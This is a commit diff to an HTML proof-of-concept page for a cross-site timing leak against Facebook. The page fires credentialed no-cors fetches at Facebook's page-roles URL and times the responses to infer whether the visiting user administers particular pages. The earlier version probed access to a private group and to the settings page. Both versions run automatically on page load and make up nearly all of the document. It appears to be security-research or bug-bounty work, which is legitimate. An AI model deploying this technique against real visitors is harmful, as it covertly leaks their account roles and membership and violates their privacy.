

Before and after one commit to bibekdondai/fb-xsleak-poc, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 93-800 px from the top of the page, without its empty margins (208-1071 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html
final

```diff
--- a/index.html
+++ b/index.html
@@ -2,76 +2,75 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8">
-  <title>Facebook XS-Leak PoC</title>
+  <title>Facebook Admin XS-Leak PoC</title>
   <style>
     body { font-family: Arial, sans-serif; max-width: 800px; margin: 0 auto; padding: 20px; }
-    .result { padding: 10px; margin: 10px 0; border-radius: 5px; }
-    .accessible { background: #ffebee; border-left: 4px solid #f44336; }
-    .inaccessible { background: #e8f5e9; border-left: 4px solid #4caf50; }
+    .admin { background: #ffebee; border-left: 4px solid #f44336; }
+    .non-admin { background: #e8f5e9; border-left: 4px solid #4caf50; }
+    .result { padding: 15px; margin: 15px 0; border-radius: 5px; }
   </style>
 </head>
 <body>
-  <h1>Facebook Resource Access Timing Test</h1>
-  <p>This page demonstrates how response timing can reveal whether a user has access to specific Facebook resources.</p>
+  <h1>Facebook Page Admin Timing Leak</h1>
+  <p>Testing response times for <code>/pages/roles/</code> to detect admin status.</p>
 
   <div id="results"></div>
 
   <script>
-    const testCases = [
-      { url: "https://www.facebook.com/130676333456599", name: "Test Page (Likely Public)" },
-      { url: "https://www.facebook.com/groups/private-group-test", name: "Private Group (Members Only)" },
-      { url: "https://www.facebook.com/settings", name: "Settings Page (Logged-in Users)" }
+    // Your test pages (replace with actual IDs)
+    const TEST_PAGES = [
+      {
+        id: "130676333456599",
+        name: "Page I Admin (Expected: FAST)"
+      },
+      {
+        id: "110875921969003",
+        name: "Page I Don't Admin (Expected: SLOW)"
+      }
     ];
 
-    async function testTiming(url, name) {
-      const start = performance.now();
+    async function testPage(page) {
+      const url = `https://www.facebook.com/pages/roles/?id=${page.id}`;
+      const times = [];
 
-      try {
-        await fetch(url, {
-          mode: "no-cors",
-          credentials: "include",
-          cache: "no-store"
-        });
-      } catch (e) {
-        // Expected with no-cors
+      // Run 3 tests to average out noise
+      for (let i = 0; i < 3; i++) {
+        const start = performance.now();
+        try {
+          await fetch(url, {
+            method: 'GET',
+            mode: 'no-cors',
+            credentials: 'include',
+            cache: 'no-store',
+            headers: { 'Cache-Control': 'no-cache' }
+          });
+        } catch (e) { /* CORS errors expected */ }
+        const duration = performance.now() - start;
+        times.push(duration);
+        await new Promise(resolve => setTimeout(resolve, 1000)); // Delay between requests
       }
 
-      const duration = performance.now() - start;
-      return { name, url, duration };
+      const avgTime = times.reduce((a, b) => a + b, 0) / times.length;
+      const isAdmin = avgTime < 800; // Adjust threshold based on your tests
+
+      // Display results
+      const resultEl = document.createElement('div');
+      resultEl.className = `result ${isAdmin ? 'admin' : 'non-admin'}`;
+      resultEl.innerHTML = `
+        <h3>${page.name}</h3>
+        <p><strong>URL:</strong> <code>${url}</code></p>
+        <p><strong>Avg Time:</strong> ${avgTime.toFixed(2)}ms</p>
+        <p><strong>Conclusion:</strong> ${isAdmin ? 'ADMIN ACCESS' : 'Non-Admin'}</p>
+        <details>
+          <summary>Raw Timings</summary>
+          <pre>${JSON.stringify(times, null, 2)}</pre>
+        </details>
+      `;
+      document.getElementById('results').appendChild(resultEl);
     }
 
-    async function runTests() {
-      const resultsEl = document.getElementById('results');
-      resultsEl.innerHTML = '<h2>Testing...</h2>';
-
-      for (const test of testCases) {
-        // Run multiple times for consistency
-        const durations = [];
-        for (let i = 0; i < 3; i++) {
-          const result = await testTiming(test.url, test.name);
-          durations.push(result.duration);
-          await new Promise(resolve => setTimeout(resolve, 1000));
-        }
-
-        const avgDuration = durations.reduce((a,b) => a + b, 0) / durations.length;
-        const isAccessible = avgDuration < 1000; // Adjust threshold based on your tests
-
-        const resultEl = document.createElement('div');
-        resultEl.className = `result ${isAccessible ? 'accessible' : 'inaccessible'}`;
-        resultEl.innerHTML = `
-          <h3>${test.name}</h3>
-          <p>URL: ${test.url}</p>
-          <p>Average Response Time: ${avgDuration.toFixed(2)}ms</p>
-          <p>Conclusion: ${isAccessible ? 'Likely ACCESSIBLE' : 'Likely INACCESSIBLE'}</p>
-        `;
-        resultsEl.appendChild(resultEl);
-
-        console.log(`[TEST] ${test.name} - Avg: ${avgDuration.toFixed(2)}ms - ${isAccessible ? 'ACCESSIBLE' : 'INACCESSIBLE'}`);
-      }
-    }
-
-    // Start tests after page load
-    window.addEventListener('load', runTests);
+    // Run tests
+    TEST_PAGES.forEach(testPage);
   </script>
 </body>
 </html>
```
